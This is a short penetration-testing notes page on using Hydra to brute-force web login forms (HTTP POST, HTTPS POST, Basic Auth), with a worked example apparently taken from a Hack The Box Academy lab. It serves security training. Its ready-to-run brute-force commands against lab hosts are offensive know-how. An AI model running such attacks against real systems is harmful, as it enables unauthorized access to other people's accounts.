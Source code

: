 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hydra

## Usage

{% tabs %}
{% tab title="HTTP" %}
{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}
{% endtab %}

{% tab title="HTTPS" %}
{% code overflow="wrap" %}
```bash
hydra -L users -P passwords streamio.htb https-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="alert alert-danger">' -I
```
{% endcode %}
{% endtab %}

{% tab title="Basic Auth" %}
{% code overflow="wrap" %}
```bash
$ hydra -L tiny_file_manager_users -P /usr/share/wordlists/rockyou.txt 192.168.221.201 http-get '/A=BASIC:F=401 Unauthorized'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Example

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.
{% endhint %}

We find an HTTP login form (Figure 1), attempt a failed login, and select something unique from the source code of the HTTP response (Figure 2).

<figure><img src="../../.gitbook/assets/hydra_http_login_form.png" alt=""><figcaption><p>Figure 1: An HTTP login form.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/hydra_http_login_form_source.png" alt=""><figcaption><p>Figure 2: A unique string within the source code of a failed login attempt.</p></figcaption></figure>

Then, we pass this information to `hydra` and perform the BFA[^1] against the login form (Figure 3).

{% code overflow="wrap" %}
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form '/login.php:username=^USER^&password=^PASS^:F=<div class="log-form">' -f -u
```
{% endcode %}

<figure><img src="../../.gitbook/assets/hydra_http_bfa.png" alt=""><figcaption><p>Figure 3: Performing a BFA on an HTTP login form.</p></figcaption></figure>

[^1]: Brute Force Attack
